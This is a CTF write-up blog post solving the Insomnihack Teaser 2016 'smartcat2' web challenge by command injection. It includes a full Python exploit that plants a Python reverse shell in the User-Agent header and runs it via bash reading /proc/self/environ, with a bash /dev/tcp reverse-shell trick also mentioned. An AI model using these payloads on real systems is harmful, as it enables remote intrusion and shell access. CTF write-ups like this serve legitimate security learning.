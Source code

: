 ```yaml
---
id: 499
title: Insomnihack Teaser 2016 – smartcat2 – 50 pt Web Challenge
date: 2016-01-17T21:00:52+00:00
author: Kris
layout: post
guid: https://ctf.rip/?p=499
permalink: /insomnihack-teaser-2016-smartcat2-50-pt-web-challenge/
post_views_count:
  - "1172"
image: /images/2016/01/cat.png
categories:
  - Uncategorized
  - Write-Ups
tags:
  - burpsuite
  - command injection
---
```

<img class="size-full wp-image-501 aligncenter" src="/images/2016/01/smartcat20.png" alt="smartcat20" width="707" height="290" srcset="/images/2016/01/smartcat20.png 707w, /images/2016/01/smartcat20-300x123.png 300w, /images/2016/01/smartcat20-660x271.png 660w" sizes="(max-width: 707px) 100vw, 707px" />

Part 2 of this crazy cat challenge was a bit of a stumper, until I recalled some old school web techniques that haven't really worked for a while now. In this challenge we need to get a shell and get the flag from /home/smartcat/. Without a "space" character that sounds tricky. I know a pretty trivial way to get a shell without the space character "bash</dev/tcp/<ip>/<port>" but that was not working on this box.

Instead I needed another way to get data onto the system, this turned out pretty simple... "/proc/self/environ"...

This contains several user controlled environment variables, such as the contents of "User-Agent:" header. Better still, the contents of User-Agent is not restricted in any way. So I simply used this exploit to send myself a reverse shell:
  
<!-- HTML generated using hilite.me -->

<div style="background: #272822; overflow: auto; width: auto; border: solid gray; border-width: .1em .1em .1em .8em; padding: .2em .6em; color: #eeeeee;">
  <pre style="margin: 0; line-height: 125%;"><span style="color: #75715e;">#!/usr/bin/python</span>

<span style="color: #f92672;">import</span> <span style="color: #f8f8f2;">requests</span>

<span style="color: #f8f8f2;">URL</span> <span style="color: #f92672;">=</span> <span style="color: #e6db74;">'http://smartcat.insomnihack.ch/cgi-bin/index.cgi'</span>

<span style="color: #f8f8f2;">HOST</span> <span style="color: #f92672;">=</span> <span style="color: #e6db74;">'<yourIP>'</span>	<span style="color: #75715e;"># your IP for the reverse shell</span>
<span style="color: #f8f8f2;">PORT</span> <span style="color: #f92672;">=</span> <span style="color: #e6db74;">'4443'</span>		<span style="color: #75715e;"># port you're listening on</span>

<span style="color: #f8f8f2;">s</span> <span style="color: #f92672;">=</span> <span style="color: #f8f8f2;">requests</span><span style="color: #f92672;">.</span><span style="color: #f8f8f2;">Session()</span>

<span style="color: #75715e;"># Python backdoor in the user-agent with a # at the end</span>
<span style="color: #f8f8f2;">headers</span> <span style="color: #f92672;">=</span> <span style="color: #f8f8f2;">{</span> <span style="color: #e6db74;">'User-Agent'</span> <span style="color: #f8f8f2;">:</span> <span style="color: #e6db74;">';python -c </span><span style="color: #ae81ff;">\'</span><span style="color: #e6db74;">import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("'</span> <span style="color: #f92672;">+</span> <span style="color: #f8f8f2;">HOST</span> <span style="color: #f92672;">+</span> <span style="color: #e6db74;">'",'</span> <span style="color: #f92672;">+</span> <span style="color: #f8f8f2;">PORT</span> <span style="color: #f92672;">+</span> <span style="color: #e6db74;">'));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);</span><span style="color: #ae81ff;">\'</span><span style="color: #e6db74;"> #'</span> <span style="color: #f8f8f2;">}</span>

<span style="color: #75715e;"># the old /proc/self/environ trick</span>
<span style="color: #f8f8f2;">payload</span> <span style="color: #f92672;">=</span> <span style="color: #f8f8f2;">{</span> <span style="color: #e6db74;">'dest'</span> <span style="color: #f8f8f2;">:</span> <span style="color: #f8f8f2;">chr(</span><span style="color: #ae81ff;">0xa</span><span style="color: #f8f8f2;">)</span> <span style="color: #f92672;">+</span> <span style="color: #e6db74;">'bash</proc/self/environ'</span><span style="color: #f8f8f2;">}</span>

<span style="color: #66d9ef;">print</span> <span style="color: #e6db74;">"[*] Exploiting..."</span> 
<span style="color: #66d9ef;">print</span> <span style="color: #e6db74;">"[+] When you get the reverse shell, issue these commands:"</span>
<span style="color: #66d9ef;">print</span> <span style="color: #e6db74;">"[+] cd /home/smartcat"</span>
<span style="color: #66d9ef;">print</span> <span style="color: #e6db74;">"[+] ./readflag"</span>
<span style="color: #66d9ef;">print</span> <span style="color: #e6db74;">"[+] Type </span><span style="color: #ae81ff;">\"</span><span style="color: #e6db74;">Give me a...</span><span style="color: #ae81ff;">\"</span><span style="color: #e6db74;"><enter>"</span>
<span style="color: #66d9ef;">print</span> <span style="color: #e6db74;">"[+] wait 2 seconds..."</span>
<span style="color: #66d9ef;">print</span> <span style="color: #e6db74;">"[+] Type </span><span style="color: #ae81ff;">\"</span><span style="color: #e6db74;">... flag!</span><span style="color: #ae81ff;">\"</span><span style="color: #e6db74;"><enter>"</span>
<span style="color: #f8f8f2;">r</span> <span style="color: #f92672;">=</span> <span style="color: #f8f8f2;">s</span><span style="color: #f92672;">.</span><span style="color: #f8f8f2;">post(URL,</span> <span style="color: #f8f8f2;">data</span><span style="color: #f92672;">=</span><span style="color: #f8f8f2;">payload,</span> <span style="color: #f8f8f2;">headers</span><span style="color: #f92672;">=</span><span style="color: #f8f8f2;">headers)</span>

```

</div>

Note the presence of the "#" mark at the end of our Python reverse shell. This is key as it prevents Bash from continuing to interpret the /proc/self/environ file and running into a set of parenthesis that cause it to fail with a syntax error.

We get our reverse shell. We learn that /home/smartcat/flag is not readable by our user. Fair enough, that would be too easy. However there's a "readflag" setuid program that can read it for us. We need to have an interactive shell though. See highlighted selection below I found while trolling around via Burpsuite:

<img class="wp-image-502 aligncenter" src="/images/2016/01/smartcat21.png" alt="smartcat21" width="972" height="640" srcset="/images/2016/01/smartcat21.png 1607w, /images/2016/01/smartcat21-300x198.png 300w, /images/2016/01/smartcat21-768x506.png 768w, /images/2016/01/smartcat21-1024x675.png 1024w, /images/2016/01/smartcat21-660x435.png 660w" sizes="(max-width: 972px) 100vw, 972px" />

After learning all of this, and getting my shell, I was able to retrieve the flag!

<img class="size-full wp-image-500 aligncenter" src="/images/2016/01/smartcat2.png" alt="smartcat2" width="833" height="478" srcset="/images/2016/01/smartcat2.png 833w, /images/2016/01/smartcat2-300x172.png 300w, /images/2016/01/smartcat2-768x441.png 768w, /images/2016/01/smartcat2-660x379.png 660w" sizes="(max-width: 833px) 100vw, 833px" />